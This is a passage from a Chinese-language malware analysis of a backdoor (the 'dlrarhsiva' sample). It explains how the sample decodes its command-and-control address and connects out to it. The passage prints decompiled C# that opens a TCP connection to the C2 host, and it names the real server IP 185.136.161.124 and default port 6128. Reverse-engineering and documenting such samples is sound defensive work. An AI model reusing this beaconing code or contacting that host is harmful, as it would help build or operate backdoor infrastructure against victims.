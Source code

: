 ## 中繼站
### 基本資訊
在前面提到的後門功能中有一個是專門處理網路連線的(`dlrarhsivaIPSConfig`)，這其實蠻有趣的，他不直接寫出連線的IP，反而是做了簡單的ascii轉換後才進行連線，如下所示
1. MLREDM/dlrarhsivaIPSConfig()
    這一段主要是進行連線，但是在連線前會進行IP parsing和fetching port的動作(如下一段所示)
    ```csharp!
    // dlrarhsiva.MLREDM
    // Token: 0x0600001A RID: 26 RVA: 0x0000365C File Offset: 0x0000185C
    private bool dlrarhsivaIPSConfig()
    {
        bool result;
        try
        {
            DLAONIF.dlrarhsivadefaultP = this.dlrarhsivaCMD.dlrarhsivaserverIPD();
            this.dlrarhsivatcpsck = new TcpClient();
            this.dlrarhsivatcpsck.Connect(DLAONIF.dlrarhsivadefaultP, DLAONIF.dlrarhsivaport);
            result = true;
        }
        catch
        {
            this.dlrarhsivaports_switch();
            result = false;
        }
        return result;
    }
    ```
2. OLRDMR/dlrarhsivaserverIPD()
    這一段就是把DLAONIF.dlrarhsivavpsips轉換成UTF-8而已，原本是ascii的integer形式，轉換後就變成一般的ascii string，也就是==185.136.161.124==
    ```csharp!
    using System;
    using System.Diagnostics;
    using System.IO;
    using System.Net.Sockets;
    using System.Text;

    namespace dlrarhsiva
    {
        // Token: 0x02000009 RID: 9
        internal class OLRDMR
        {
            ...
            public string dlrarhsivaserverIPD()
            {
                return Encoding.UTF8.GetString(DLAONIF.dlrarhsivavpsips, 0, DLAONIF.dlrarhsivavpsips.Length);
            }
            ...
            // Token: 0x0400003A RID: 58
            public MLREDM server;
        }
    }
    ```
3. DLAONIF/
    也可以自行轉換下面的IP，另外他有好幾個Port，詳細的code可以參考MLREDM/dlrarhsivaports_switch()這個method，在default port 6128連不上去的時候可以自行切換預先設定好的port number
    ```csharp!
    using System;
    using System.IO;
    using System.Windows.Forms;
    using Microsoft.Win32;
